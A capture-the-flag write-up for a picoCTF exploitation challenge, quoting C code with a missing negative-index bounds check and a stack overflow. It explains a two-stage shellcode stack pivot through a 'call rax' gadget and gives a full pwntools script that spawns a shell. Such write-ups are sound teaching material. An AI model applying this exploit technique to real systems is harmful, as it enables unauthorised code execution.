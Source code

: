 # Description

Download the binary [here](https://challenge-files.picoctf.net/c_shape_facility/7d20bd7d809ec876eedf2dbc6a15974c4a34a735fc5fef28d056ecd58a756625/handoff)Download the source [here](https://challenge-files.picoctf.net/c_shape_facility/7d20bd7d809ec876eedf2dbc6a15974c4a34a735fc5fef28d056ecd58a756625/handoff.c)

Additional details will be available after launching your challenge instance.

# Solution

While reviewing the code of this challenge a few things popped as red flags, first we are able to write at arbitrary offsets (we can use negative numbers on option 2) because there's no boundary check for numbers lower than 0.

```c
else if (choice == 2) {
	choice = -1;
	puts("Which recipient would you like to send a message to?");
	if (scanf("%d", &choice) != 1) exit(0);
	getchar();
	
	if (choice >= total_entries) {
		puts("Invalid entry number");
		continue;
	}

	puts("What message would you like to send them?");
	fgets(entries[choice].msg, MSG_LEN, stdin);
```

We also have an overflow in option 3.

```c
else if (choice == 3) {
	choice = -1;
	puts("Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: ");
	fgets(feedback, NAME_LEN, stdin);
	feedback[7] = '\0';
	break;
}
```

The feedback variable is at most 8 bytes long and we are reading NAME_LEN bytes of size 32 into it. Something worth noting is that we don't have canary, NX and pie protections enabled for this binary.

![Pasted image 20250308125226.png](./attachments/Pasted%20image%2020250308125226.png)

This will make our life easier since we can just pivot execution to the stack and go from there ...

It seems we are able to write from (rbp-0x2e0)-choice

![Pasted image 20250308154628.png](./attachments/Pasted%20image%2020250308154628.png)

At time of execution we have 0xfd4 bytes between rsp and rbp, if we take the 2e0 offset into account we are separated by 0xcf4, this should be enough space to prepare our custom shellcode.

If we add the first payload via the addition of an entry and message, we should have a payload at $rsp+0x10 as shown below ...

![Pasted image 20250308161605.png](./attachments/Pasted%20image%2020250308161605.png)


... so if we are able to overwrite the return address with a push rsp, ret instruction we should be able to redirect execution to our shellcode  in the stack.

Also if we use the exit feature, we are able to overwrite pass rbp ...

![Pasted image 20250308162307.png](./attachments/Pasted%20image%2020250308162307.png)

While looking for ways to gain execution control it became clear that we could leverage the different registers that had data from our controlled buffer like RAX, RCX and RSI ...

![Pasted image 20250308162703.png](./attachments/Pasted%20image%2020250308162703.png)

At this point we just had to find a call or jmp instruction to one of our controlled registers that could be used to execute our first stage shellcode, fortunately there is a call rax instruction at offset 0x401014.

```
0x0000000000401014 : call rax
```

From there we created a custom shellcode to perform our stack pivot:

```
sub rsp, 0x2e0
push rsp
ret
```

Once that is executed we have our second stage shellcode ready at offset RSP-0x2e0.

![Pasted image 20250308172954.png](./attachments/Pasted%20image%2020250308172954.png)

Full py script ...

```python
#!/usr/bin/python
# -*- coding: latin-1 -*-

from pwn import *
import sys

script='''
b *vuln + 202
b *vuln + 387
b *vuln + 447
'''

def send_payload(payload):
    r.sendline(payload)
    return r.recvall()

def hunt():
  #pause()
  context.update(arch='amd64', os='linux')
  shellcode = shellcraft.sh()
  prestage = asm('nop')
  prestage += asm('nop')
  prestage += asm('sub rsp, 0x2e0')
  prestage += asm('nop')
  prestage += asm('nop')
  prestage += asm('nop')
  prestage += asm('push rsp')
  prestage += asm('ret')
  print(hexdump(prestage))
  print(shellcode)
  print(hexdump(asm(shellcode)))
  r.recvuntil(b'3. Exit the app\n')
  r.sendline(b'1')
  r.recvuntil(b"What's the new recipient's name: \n")
  r.sendline(b'\x90')
  r.recvuntil(b'3. Exit the app\n')
  r.sendline(b'2')
  r.recvuntil(b'Which recipient would you like to send a message to?\n')
  r.sendline(b'0')
  r.recvuntil(b'What message would you like to send them?\n')
  r.sendline(asm(shellcode))
  r.recvuntil(b'3. Exit the app\n')
  r.sendline(b'3')
  r.recvuntil(b'we would really appreciate it: \n')
  stage1 = prestage + b'\x90'*6 + p64(0x401014) + b'\x90'*2
  r.sendline(stage1)
  r.interactive()

if __name__ == '__main__':
  context.terminal = ['tmux','splitw','-v']

  binary="./handoff"
  bin_args = ["AAAAAAAA", "BBBBBBBB"]
  host, port = "localhost 5000".split()

  if len(sys.argv) > 1:
    r = remote(host,int(port))
  else:
    log.info("For remote: %s remote" % sys.argv[0])
    r = gdb.debug([binary,b'AAAAAAAA'],gdbscript=script, env={"LD_PRELOAD":""})
  hunt()
  ```
  
